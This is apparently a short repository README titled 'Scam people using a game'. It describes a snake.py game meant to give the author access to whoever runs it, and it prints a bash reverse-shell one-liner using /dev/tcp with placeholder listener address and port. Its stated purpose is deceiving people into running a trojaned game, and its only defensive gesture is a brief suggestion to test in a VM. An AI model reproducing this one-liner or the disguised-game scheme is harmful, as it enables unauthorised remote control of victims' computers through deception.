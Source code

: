#Scam people using a game

Go in this folder and run the single file snake.py so that you could give me the
access to your computer. If you want to do it too, the first step is using different kinds of computers or even get the help by using a VM to test the result. 
The command to run is:
/bin/bash -i >/dev/tcp/{YOUR_LISTENING_IP_ADDRESS}/{THE_PORT_YOURE_LISTENING_TO} 0<&1 2>&1

